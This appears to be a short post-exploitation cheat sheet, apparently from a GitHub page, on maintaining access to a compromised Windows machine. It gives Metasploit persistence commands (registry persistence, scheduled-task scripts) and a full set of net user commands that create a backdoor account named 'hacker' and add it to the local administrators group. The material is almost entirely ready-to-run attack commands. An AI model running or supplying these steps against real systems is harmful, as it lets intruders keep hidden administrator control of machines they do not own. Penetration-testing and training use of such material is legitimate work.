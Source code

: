 # Maintaining Access

**Using Metasploit for Persistence**

```bash
# Check available options
run persistence -h

# Example using registry persistence
use exploit/windows/local/registry_persistence
set SESSION <SESSION_NUMBER>
exploit
```

**Scheduled Tasks**

```bash
# Run scheduleme for simple scheduled task creation
run scheduleme

# For more advanced options, use schtaskabuse
run schtaskabuse
```

#### Adding a User

```bash
# Add a user using the net user command
net user hacker password123 /add

# Set additional details for the user
net user hacker /fullname:"Hacker User" /comment:"Added by the attacker" /passwordchg:no

# Add the user to the local administrators group
net localgroup administrators hacker /add
```
